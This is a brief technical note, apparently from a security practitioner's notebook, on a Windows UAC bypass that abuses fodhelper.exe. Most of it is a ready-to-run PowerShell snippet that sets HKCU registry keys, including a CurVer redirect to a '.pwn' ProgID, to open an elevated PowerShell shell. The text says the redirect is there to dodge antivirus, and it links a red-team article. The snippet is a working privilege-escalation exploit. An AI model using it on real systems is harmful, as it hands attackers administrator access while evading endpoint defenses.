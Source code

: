 # Exploiting the Windows "Feature on Demand" Helper

* **author**:: Nathan Acks  
* **date**:: 2022-09-02

The fodhelper binary can be abused to gain an admin shell on Windows boxes with a couple of registry key changes. They key (heh) here is to use the CurVer registry key to point fodhelper.exe to a different registry location; otherwise most AV solutions will catch this change and block it (though sometimes the command will still execute).

```powershell
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" `
	-Name "(default)" -Value "cmd.exe /c start powershell.exe" -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" `
	-Name "(default)" -value ".pwn" -Force
```

* [Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
